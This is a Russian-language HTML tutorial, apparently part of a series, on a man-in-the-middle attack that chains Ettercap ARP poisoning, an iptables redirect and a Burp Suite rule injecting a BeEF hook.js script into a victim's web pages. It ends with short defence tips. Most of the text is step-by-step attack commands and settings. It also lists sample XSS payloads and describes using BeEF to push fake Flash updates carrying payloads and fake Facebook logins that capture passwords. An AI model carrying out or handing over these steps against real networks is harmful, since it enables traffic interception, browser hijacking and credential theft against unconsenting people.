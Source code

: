 <h1>(Ettercap, Burp Suite, BeEF). MITM. Часть 2. Использование Burp Suite в атаках MITM. Подцепление на BeEF.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b><br>

<b><i>Содержание</i></b><br>
<a href="#introduction">1. Введение. Требования.</a><br>
<a href="#introtoxss">2. Понятие XSS.</a><br>
<a href="#prepare">3. Подготовка среды.</a><br>
<a href="#ettercap">4. Запускаем Ettercap.</a><br>
<a href="#burpsuite">5. Запускаем Burp Suite.</a><br>
<a href="#beef">5. Запускаем BeEF.</a><br>
<a href="#configureburpsuite">6. Продолжаем конфигурировать Burp Suite.</a><br>
<a href="#example">7. Работа с BeEF.</a><br>
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a><br>

<p><a name="introduction"></a></p>
<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем использование утилиты Burp Suite для атаки MITM. Вообще, данная утилита предназначена для тестирования веб-приложений (к которым мы вернемся позже), но ее можно использовать также много еще для чего. Как уже ранее было сказано, будет использовать в атаке MITM.<br><br>
<i>Если вы не читали первую статью про MITM, обязательно прочитайте ее перед этой. Там рассмотрены понятия атаки MITM и использование утилит Bettercap и net-creds.</i><br><br>


Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.


<p><a name="introtoxss"></a></p>
<h2>Понятие XSS.</h2>
XSS (Cross Site Scripting, получил аббревиатуру XSS, а не CSS, для избежания путаницы с CSS в HTML) - атака, которая заключается в том, чтобы запустить вредносный JavaScript на стороне пользователя. <br>
Уязвимости XSS делятся на три типа:
<ul>
  <li>
    <b>Stored XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: на доске объявлений в поле имя ввел <script>alert('Stored XSS')</script> и теперь каждый раз, когда кто-то заходит на страницу его профиля, он видит на экране сообщение 'Stored XSS'
  </li>
  
  <li>
    <b>Reflected XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/store/product.php?id=<script>alert('ReflectedXSS')</script>
  </li>
  
  <li>
    <b>DOM-Based XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/arictle/25/text.html#<script>alert('DOM-BasedXSS')</script>
  </li>
</ul><br>
Приведенная выше информация на данный момент нам не особо будет нужна, т.к. безопасность веб-приложений у нас еще не скоро. Для общего развития, можно сказать.


<p><a name="prepare"></a></p>
<h2>Подготовка среды.</h2>
Чтобы было удобнее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>

Установите BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">apt update && apt install beef-xss</pre>

<p><a name="ettercap"></a></p>
<h2>Запускаем Ettercap.</h2>
Включите форвард пакетов:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">echo "1" > /proc/sys/net/ipv4/ip_forward</pre>

Запустите Ettercap:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ettercap -G</pre>

<ul>
  <li>Когда откроется окно Ettercap, выберите интерфейс, который хотите использовать и нажмите ОК.</li>
  <li>Нажмите на кнопку Show hosts (у нее иконка сервера)</li>
  <li>Нажмите на лупу для того, чтобы начать поиск хостов (если нужного не появилось, попробуйте еще раз, иногда приходится трижды нажимать)</li>
  <li>Выберите IP-адрес роутера как цель 1</li>
  <li>Выберите IP-адрес атакуемого как цель 2</li>
  <li>Нажмите на меню MITM</li>
  <li>Выберите ARP Poisoning, убедитесь, что стоит галочка Sniff remote connections и нажмите ОК</li>
</ul>

(в другом терминале) 
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>
Чтобы перенаправлять данные с порта 80 на 8080:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080</pre>


<p><a name="burpsuite"></a></p>
<h2>Запускаем Burp Suite.</h2>

Запустите Burp Suite.
<ul>
  <li>
    Во вкладке Proxy перейдите в подраздел Options
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;В разделе Proxy Listeners нажмите кнопку Add
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Bind to port укажите порт 8080
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Во вкладке Request Handling поставьте галочку “Support invisible proxying”
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Нажмите ОК
  </li>
  <li>
    Во вкладке Proxy перейдите в подраздел Intercept
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;Нажмите на Intercept is ON для того, чтобы выключить перехват и перевести кнопку в положение Intercept is OFF
  </li>
</ul>


<p><a name="beef"></a></p>
<h2>Запускаем BeEF.</h2>
Запускаем BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo beef-xss</pre>
При первом запуске потребует задать логин и пароль. Пароль должен отличаться от beef. Этот логин/пароль потребуется для входа в веб-интерфейс BeEF.


<p><a name="configureburpsuite"></a></p>
<h2>Продолжаем конфигурировать Burp Suite.</h2>
<ul>
  <li>Во вкладке Proxy перейдите в подраздел Options</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;Крутите вниз, пока не найдете Match and Replace</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;В этом разделе нажмите кнопку Add</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ставим тип Response body</li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Match: вписывайте
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);"><\/head></pre>
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Replace вписывайте: 
    <pre class="html4strict" style="font-family:monospace;"><span style="color: #009900;">&lt;<span style="color: #000000; font-weight: bold;">script</span> <span style="color: #000066;">src</span><span style="color: #66cc66;">=</span>”192.168.0<span style="color: #66cc66;">/</span><span style="color: #cc66cc;">1</span>.x:<span style="color: #cc66cc;">3000</span><span style="color: #66cc66;">/</span>hook.js”&gt;&lt;<span style="color: #66cc66;">/</span><span style="color: #000000; font-weight: bold;">script</span>&gt;&lt;<span style="color: #66cc66;">/</span><span style="color: #000000; font-weight: bold;">head</span>&gt;</span></pre>
    где 192.168.0/1.x - ваш IP-адрес
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Поставьте галочку “Regex Match”
  </li>
</ul>

Ждите, пока атакуемый откроет страницу http://. Если вам нужно внедрять этот скрипт и на страницы https://, то единственный вариант - использовать Ettercap с модулем SSLStrip (который работает криво). Вариант использовать Bettercap вместо Ettercap - не вариант, т.к. Bettercap занимает порт 8080, хотя вы можете попробовать указать в Burp Suite другой порт и в iptables - также другой, не тестировал.


<p><a name="beef"></a></p>
<h2>Работа с BeEF.</h2>
BeEF позволяет практически управлять браузером, когда открыта вкладка со скриптом. Можно показать фейковое уведомление об обновлении Flash Player, куда указать исполняемый файл с полезной нагрузкой, показать окно авторизации в Facebook (истекла сессия, введите логин/пароль), после чего он попадет вам в консоль и т.д.

<i>Пример использования в работе...</i>


<p><a name="end"></a></p>
<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://cisoclub.ru/rukovodstvo-po-osushhestvleniyu-cross-site-scripting-xss/" target="_blank">Hackware: руководство по осуществлению XSS атаки</a></li>
  <li><a href="https://ru.wikipedia.org/wiki/Межсайтовый_скриптинг" target="_blank">Википедия: межсайтовый скриптинг</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не использовать открытые сети Wi-Fi</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение NoScript (<a href="https://chrome.google.com/webstore/detail/noscript/doojmbjmlfjjnbmnoijecmcbfeoakpjm" target="_blank">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/noscript/" target="_blank">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с подцеплением на BeEF при помощи Burp Suite.<br><br>
<a href="../index">Назад к списку статей...</a>
